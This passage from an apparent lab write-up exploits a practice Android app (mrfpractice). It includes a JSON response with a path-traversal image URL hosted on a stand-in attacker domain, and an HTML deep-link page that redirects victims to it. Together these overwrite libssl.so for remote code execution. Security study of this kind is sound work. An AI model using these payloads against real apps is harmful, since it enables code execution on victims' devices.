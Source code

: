 blog image will be downloaded from the link returned as the value of `image` key
![](https://i.imgur.com/Qi3oYot.png)
![](https://i.imgur.com/ZEf28mk.png)

the downloaded images will be saved in the path `/data/data/com.dphoeniixx.mrfpractice/cache/image-cache/FILE_NAME_MD5/filename` 
![](https://i.imgur.com/ZL0meAm.png)

we can use the same open redirect used before to redirect the request `GET /api/v1/blogs/blogID` to the attacker's domain and return a manipulated response with an image URL that includes a path traversal payload to overwrite any file inside the application's writable directories, by hosting the JSON below on the attacker's domain and redirect the victim to the JSON link, the `libssl.so` file in the path `/data/data/com.dphoeniixx.mrfpractice/libs/arm64-v8a/libssl.so` will be overwritten with another file includes a malicious code or reverse shell payload

```JSON
{
    "status": "success",
    "data": {
        "_id": "640f4199259ed37178284e6f",
        "title": "First Blog",
        "description": "Test First blog",
        "image": "https://attacker.domain/x/x/x/..%2f..%2f..%2flibs%2farm64-v8a%2flibssl.so",
        "tags": [],
        "author": "640f4067259ed37178284e69",
        "createdAt": "2023-03-13T15:30:33.477Z",
        "updatedAt": "2023-03-13T15:30:33.477Z"
    }
}
```
the HTML below will redirect the victim to the manipulated JSON link

```HTML
<!DOCTYPE html>
<html>
<body>
<a href="mrf://dphoeniixx/blog/..%2fredirect%2f%252f%252fattacker.domain/payload.json">Blog</a>
</body>
</html>
```
![](https://i.imgur.com/A7OPgO9.png)

next time the app gets launched the malicious `libssl.so` payload will be executed
![](https://i.imgur.com/SdMF2yi.png)

And this was the RCE vulnerability






